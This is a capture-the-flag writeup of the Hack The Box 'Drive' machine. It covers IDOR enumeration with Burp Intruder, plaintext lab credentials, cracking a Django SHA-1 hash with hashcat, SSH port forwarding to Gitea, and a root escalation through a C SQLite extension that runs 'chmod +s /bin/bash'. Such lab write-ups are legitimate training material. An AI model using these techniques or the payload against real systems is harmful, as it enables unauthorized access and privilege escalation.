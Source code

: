 ```yaml
---
title:  "HTB Drive Writeup"
date:   2024-01-21 00:30:00 
categories: HTB Machine
tags: IDOR 
---
```


![](/images/drive/2024-01-21-16-19-34.png)

The Drive website have register and form login . Go to create account and login to see something maybe can we exploit . 

## IDOR Attack

![](/images/drive/2024-01-21-16-25-02.png)

Now look at Dashboard . I found people file on my dashboard and i saw the link files looks likes vulnerable to IDOR so i think we need bruteforce number idor using `Burpsuite Intruder` . Open the burpsuite and turn on `Intercept` on Proxy after that click your link files and will appear the request on your `Intercept` and go to Forward to `Intruder`

![](/images/drive/2024-01-21-16-30-57.png)

As you can see here i add `§` at number for find files sensitive data likes password or somethings else using IDOR vulnerability . Usually a big company using uuid to prevent from attacker using IDOR or another vulnerability . This website using normal number id so attacker easily hacked the website by IDOR . So now let's we start the IDOR attack.
Go to `Payloads` and click `Payload type` and choosing `Numbers` payload type look at the below picture

![](/images/drive/2024-01-21-16-36-58.png)

Then there change the settings payload . Like the below

![](/images/drive/2024-01-21-16-40-58.png)

Then click `start` to launch attack . `From` thats means which number you want to start it . `To` means which number you want to stop .

![](/images/drive/2024-01-21-16-44-41.png)

Lolz IDOR not working `401 Unauthorized` . i gonna trying find another way . Until i found this one is `/block` directory i found it on `Upload Files` after that choosing public list then upload . Then go back to Dashboard until you found `Reserve` and click that and you will got it `/block` dir . So recall back number `401 Unauthorized` before this is 79 , 98 , 99 , 101 , 113 . Yes , I got it user pass ssh in id 79

![](/images/drive/2024-01-21-17-11-45.png)

## Shell as Martin 
User:martin 
Password:Xk4@KjyrYv8t194L!

`ssh martin@drive.htb`

![](/images/drive/2024-01-21-17-12-59.png)

Nothing here on user martin i think we need find the password to login another user . I found at `/home` directory have 4 user it is cris , git , martin , tom . Lets enum

![](/images/drive/2024-01-21-17-17-19.png)
Look at this i found backups directory maybe over there have the password . we need forward files to our local machine . You can using scp or python command so i'm choosing python to download the files .

![](/images/drive/2024-01-21-17-32-00.png)

I got password from `tomHands` . The hashing used Django(SHA-1) . I tried anything hash identification no one working . Only this website working [Hash Identifier](https://www.onlinehashcrack.com/hash-identification.php)
The password:`sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004`


So now lets crack the password using hashcat

![](/images/drive/2024-01-21-17-35-29.png)

hash type is 124 so lets we crack it

## Cracking SHA1 Password

`hashcat -m 124 -a 0 --force -O hash.txt /usr/share/wordlists/rockyou.txt`

`sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316`

the password is:john316 

![](/images/drive/2024-01-21-17-38-49.png)

Port 3000 usually used gitea but idk is true or not lets we forward port

## Forward Port tunnel
`ssh martin@drive.htb -L 3000:127.0.0.1:3000`

go to your browser and open this page `http://127.0.0.1:3000`


To login using  username `martinCruz` and the password here `Xk4@KjyrYv8t194L!`
i found the username on `Explore` . Success login let's check the martin repo . Look at `db_backup.sh` on `DoodleGrive` repo i found the password . The password using to extract 7z file before this . Let's copy the password and extract files before these.

![](/images/drive/2024-01-21-20-03-58.png)

Password:`H@ckThisP@ssW0rDIfY0uC@n:)`

These so much password you need crack it its take long times . I tried one by one until i found `November` is working and cracked by hashcat . I got password by `tom` 

the password is:`johnmayer7`
## Shell as Tom
![](/images/drive/2024-01-21-20-21-07.png)


Success !! login ssh as tom . Now you can see there in directory tom have doodleGrive-cli and colour red and i think that can priv esc to root because this binary have suid see the below

## Privilege Escalation

```
tom@drive:~$ find / -type f -perm -04000 -ls 2>/dev/null
   134226    868 -rwSr-x---   1 root     tom        887240 Sep 13 13:36 /home/tom/doodleGrive-cli
     1609     24 -rwsr-xr-x   1 root     root        22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
     8440     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     3108    464 -rwsr-xr-x   1 root     root         473576 Aug  4 22:02 /usr/lib/openssh/ssh-keysign
     1400     16 -rwsr-xr-x   1 root     root          14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
      878     68 -rwsr-xr-x   1 root     root          68208 Nov 29  2022 /usr/bin/passwd
      874     84 -rwsr-xr-x   1 root     root          85064 Nov 29  2022 /usr/bin/chfn
      875     52 -rwsr-xr-x   1 root     root          53040 Nov 29  2022 /usr/bin/chsh
      514     56 -rwsr-sr-x   1 daemon   daemon        55560 Nov 12  2018 /usr/bin/at
    21390     44 -rwsr-xr-x   1 root     root          44784 Nov 29  2022 /usr/bin/newgrp
     2548    164 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /usr/bin/sudo
     8422     40 -rwsr-xr-x   1 root     root          39144 May 30  2023 /usr/bin/umount
     8016     56 -rwsr-xr-x   1 root     root          55528 May 30  2023 /usr/bin/mount
     4909     68 -rwsr-xr-x   1 root     root          67816 May 30  2023 /usr/bin/su
      877     88 -rwsr-xr-x   1 root     root          88464 Nov 29  2022 /usr/bin/gpasswd
      695     40 -rwsr-xr-x   1 root     root          39144 Mar  7  2020 /usr/bin/fusermount
```




![](/images/drive/2024-01-21-20-30-19.png)

Lolz i found the password from strings command but its take so much times to find it because over there have so long row you need look carefully or you can using [IDA FREEWARE](https://hex-rays.com/ida-free/) this . Now let's login i've got user password


user:`moriarty`
pass:`findMeIfY0uC@nMr.Holmz!`

Creating a.c file and compile it 

```
#include <stdlib.h>
#include <unistd.h>
void sqlite3_a_init() {
setuid(0);
setgid(0);
system("/usr/bin/chmod +s /bin/bash");
}
```

![](/images/drive/2024-01-21-20-43-03.png)

Rooted !!

I hope your enjoy : )

